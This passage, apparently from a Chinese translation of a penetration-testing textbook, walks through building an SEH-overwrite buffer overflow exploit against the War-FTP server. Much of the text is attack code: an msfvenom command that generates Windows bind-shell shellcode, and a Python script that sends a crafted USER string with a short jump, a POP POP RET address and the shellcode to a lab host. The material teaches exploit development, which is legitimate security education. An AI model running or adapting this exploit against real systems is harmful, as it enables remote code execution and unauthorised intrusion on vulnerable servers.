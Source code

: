 ```
root@kali:~# **msfvenom -p windows/shell_bind_tcp -s 573 -b '\x00\x40\x0a\x0d'**
[*] x86/shikata_ga_nai succeeded with size 368 (iteration=1)
buf =
"\xbe\xa5\xfd\x18\xa6\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9" +
--*snip*--
```

记得告诉 Msfvenom 使用最大大小 573 字节，并排除我们为 FTP 用户名设置的坏字符。（再次提醒，尽管你可能能稍微增加一点长度，但我们最初的异常是因为我们写出了栈的末尾。我们想确保所有的 shellcode 都能执行。）现在将 shellcode 替换到漏洞中的*D*字符位置。为了使漏洞足够长以触发 SEH 覆盖（而不是我们在第十七章看到的保存的返回指针覆盖），将漏洞字符串填充至 1,150 个字符，使用*D*字符填充。完成的漏洞如示例 18-6 所示。我们的 shellcode 直接位于 SEH 覆盖之后。（在这个示例中，我们再次使用 Windows 绑定 shell。）

示例 18-6：完成的 SEH 覆盖漏洞

```
#!/usr/bin/python
import socket
shellcode = ("\xbe\xa5\xfd\x18\xa6\xd9\xc6\xd9\x74\x24\xf4\x5f\x31\xc9" +
"\xb1\x56\x31\x77\x13\x83\xc7\x04\x03\x77\xaa\x1f\xed\x5a" +
"\x5c\x56\x0e\xa3\x9c\x09\x86\x46\xad\x1b\xfc\x03\x9f\xab" +
"\x76\x41\x13\x47\xda\x72\xa0\x25\xf3\x75\x01\x83\x25\xbb" +
"\x92\x25\xea\x17\x50\x27\x96\x65\x84\x87\xa7\xa5\xd9\xc6" +
"\xe0\xd8\x11\x9a\xb9\x97\x83\x0b\xcd\xea\x1f\x2d\x01\x61" +
"\x1f\x55\x24\xb6\xeb\xef\x27\xe7\x43\x7b\x6f\x1f\xe8\x23" +
"\x50\x1e\x3d\x30\xac\x69\x4a\x83\x46\x68\x9a\xdd\xa7\x5a" +
--*snip*--
buffer = "A" * 569 + "\xEB\x06" + "B" * 2 + "\xCA\x80\x45\x5F" +  shellcode + "B" * 205
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
connect=s.connect(('192.168.20.10',21))
response = s.recv(1024)
print response
s.send('USER ' + buffer  + '\r\n')
response = s.recv(1024)
print response
s.close()
```

当 War-FTP 连接到 Immunity Debugger 时，我们必须手动告诉调试器将 SEH 传递给程序。当我们在没有调试器的情况下运行 War-FTP 并遇到错误时，执行会自动传递给 SEH，执行`POP POP RET`指令，短跳转，最后是我们的 shellcode。

## 总结

我们已经成功构建了 War-FTP 的 SEH 覆盖漏洞。虽然 War-FTP 允许我们通过直接覆盖返回地址或 SEH 来利用缓冲区溢出漏洞，但有些脆弱的程序不会以能够控制 EIP 的方式崩溃，但却允许你覆盖 SEH。在这种情况下，知道如何利用这种崩溃是创建有效漏洞的关键。由于结构化异常处理程序的工作方式，每次遇到这种崩溃时，你可以依赖 NSEH 总是在 ESP+8 的位置。当你覆盖 SEH 时，会发现在 ESP+8 处有指向下一个 SEH 记录的指针。在执行来自没有启用 SafeSEH 的模块的`POP POP RET`指令系列后，你需要执行一个短跳转来到达攻击字符串中的 shellcode。如果你继续进行漏洞开发，可能会遇到另一个挑战，其中`\xEB`是一个不良字符，因此你需要找到其他方法来执行跳转。

在下一章中，我们将通过一些零碎的内容完成对漏洞开发基础的学习，比如使用一种叫做*fuzzing*的技术首次发现崩溃，将公共漏洞代码移植以满足我们的需求，以及编写我们自己的 Metasploit 模块。

